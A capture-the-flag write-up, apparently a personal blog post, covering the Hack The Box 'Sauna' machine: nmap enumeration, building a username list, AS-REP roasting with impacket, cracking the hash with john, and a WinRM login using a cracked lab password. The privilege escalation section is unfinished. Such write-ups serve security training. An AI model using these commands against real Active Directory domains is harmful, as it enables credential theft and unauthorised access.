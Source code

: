 ```yaml
---
layout: post
title:  htb-sauna
category: walkthrough
date:   2020-07-28 05:00:00
---
```


# ![sauna](/assets/img/sauna/sauna.png)  
Sauna is a easy machine created by [egotisticalSW](https://www.hackthebox.eu/home/users/profile/94858)

# Enum  
###  nmap

>Starting Nmap 7.70 ( https://nmap.org ) at 2020-07-28 02:53 -03  
>Nmap scan report for 10.10.10.175  
>Host is up (0.21s latency).  
>Not shown: 5920 filtered ports  
>PORT     STATE SERVICE       VERSION  
>53/tcp   open  domain?  
>| fingerprint-strings:   
>|   DNSVersionBindReqTCP: 
>|     version  
>|_    bind  
>80/tcp   open  http          Microsoft IIS httpd 10.0  
>| http-methods: 
>|_  Potentially risky methods: TRACE  
>|_http-server-header: Microsoft-IIS/10.0  
>|_http-title: Egotistical Bank :: Home  
>88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-07-28 12:57:59Z)  
>135/tcp  open  msrpc         Microsoft Windows RPC  
>139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn  
>389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>445/tcp  open  microsoft-ds?  
>464/tcp  open  kpasswd5?  
>593/tcp  open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
>636/tcp  open  tcpwrapped  
>3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)  
>3269/tcp open  tcpwrapped  
>5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
>|_http-server-header: Microsoft-HTTPAPI/2.0  
>|_http-title: Not Found  
>1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
>SF-Port53-TCP:V=7.70%I=7%D=7/28%Time=5F1FBD97%P=x86\_64-pc-linux-gnu%r(DNSV  
>SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\  
>SF:x04bind\0\0\x10\0\x03");  
>Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows  
  3268
>Host script results:  
>|_clock-skew: mean: 7h03m31s, deviation: 0s, median: 7h03m31s  
>| smb2-security-mode: 
>|   2.02: 
>|_    Message signing enabled and required  
>| smb2-time: 
>|   date: 2020-07-28 10:00:17  
>|_  start_date: N/A  
  
>Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
>Nmap done: 1 IP address (1 host up) scanned in 308.65 seconds  


nmap output show me the domain egotistical-bank.local, this is the domain controller.  
nmap also show kerberos 88, IIS 80, ldap 389 and 3268, and 5985 using http, this port usually is WinRM.  
  
First thing I thought was [Kerberoasting](https://www.tarlogic.com/en/blog/how-to-attack-kerberos/)  
I used impacket's GetADUser.py, but got nothing...  

In port 80 I got this page  
![index](/assets/img/sauna/sauna1.png)  

Searching something usefull I found usernames on page "About Us"  
![users](/assets/img/sauna/sauna2.png)  

I creted a wordlist with this names, and some possibilities...  
>f.smith  
>fsmith  
>h.bear  
>hbear  
>s.coins  
>scoins  
>btaylor  
>b.taylor  
>s.driver  
>sdriver  
  
My wordlist have a lot more, but there's no need of all...  
  
Now I can use impacket's GetNPUsers.py  

### Exploit
./GetNPUsers.py egotistical-bank.local/ -usersfile users.txt -request -no-pass -dc-ip 10.10.10.175 -format john  --outputfile hash  

![fsmithHash](/assets/img/sauna/sauna3.png)  

With the brute force of my friend john I cracked this hash  
  
john -w /usr/share/wordlists/rockyou.txt hash  

![passwd](/assets/img/sauna/sauna4.png)

The part I like most in attacking windows, is the  [evil](https://github.com/Hackplayers/evil-winrm) part

./evil-winrm.rb -i 10.10.10.175 -p Thestrokes23 -u fsmith

### Priv Esc

Later...
